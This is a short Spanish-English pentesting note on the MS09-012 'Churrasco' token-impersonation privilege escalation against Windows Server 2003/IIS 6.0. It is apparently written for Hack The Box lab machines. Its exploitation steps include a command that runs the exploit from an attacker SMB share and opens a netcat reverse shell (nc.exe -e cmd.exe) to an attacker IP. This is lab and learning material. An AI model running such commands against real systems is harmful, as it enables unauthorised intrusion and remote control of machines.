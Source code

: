 
## DESCRIPTION

Windows Server 2003 and IIS 6.0 privledge escalation using impersonation token (Tokens kiddnapping revenge).

This security update is rated Important for all supported editions of Microsoft Windows 2000, Windows XP, Windows Server 2003, Windows Vista, and Windows Server 2008. For more information, see the subsection, **Affected and Non-Affected Software**, in this section.

#### Mas información
* https://learn.microsoft.com/en-us/security-updates/securitybulletins/2009/ms09-012
* https://0xdf.gitlab.io/2020/05/28/htb-grandpa.html

## EXPLOITATION

1. Descargamos el exploit: https://github.com/egre55/windows-kernel-exploits/tree/master/MS09-012:%20Churrasco

3. Lo tranferimos a la máquina: [[TRANSFERRING FILES]]

3. Ejecutamos:

```
Churrasco.exe <<comando como root>>

#Ejemplo
c:\windows\system32\inetsrv>\\10.10.14.55\smb\Churrasco.exe "\\10.10.14.55\smb\nc.exe 10.10.14.55 4444 -e cmd.exe"
```

## MACHINES

* Hack The Box: Grandad, Granny

